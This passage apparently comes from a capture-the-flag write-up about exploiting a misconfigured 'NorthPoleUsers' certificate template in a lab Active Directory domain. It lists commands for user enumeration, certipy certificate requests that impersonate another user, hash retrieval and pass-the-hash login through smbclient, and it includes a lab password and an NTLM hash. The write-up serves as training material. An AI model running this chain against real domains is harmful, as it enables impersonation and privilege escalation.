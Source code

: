 The ```NorthPoleUsers``` certificate template can be exploited. To do this, we need a user to impersonate.

```
GetADUsers.py -all -dc-ip 10.0.0.53 northpole.local/elfy
```

![AD Users](../img/objectives/active_directory/ad_users.png)

Now request a new certificate.

```
certipy req -u elfy@northpole.local -p J4\`ufC49/J4766 -dc-ip 10.0.0.53 -target npdc01.northpole.local -ca northpole-npdc01-CA -template NorthPoleUsers -upn wombleycube@northpole.local
```

![Request Cert](../img/objectives/active_directory/request_cert.png)

Next, get the authentication for Wombley.

```
certipy auth -pfx wombleycube.pfx -dc-ip 10.0.0.53
```

![Wombley Auth](../img/objectives/active_directory/wombley_auth.png)

Now you can connect to the AD server using the hash.

```
smbclient.py -no-pass -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23 -dc-ip 10.0.0.53 northpole.local/wombleycube@10.0.0.53
```
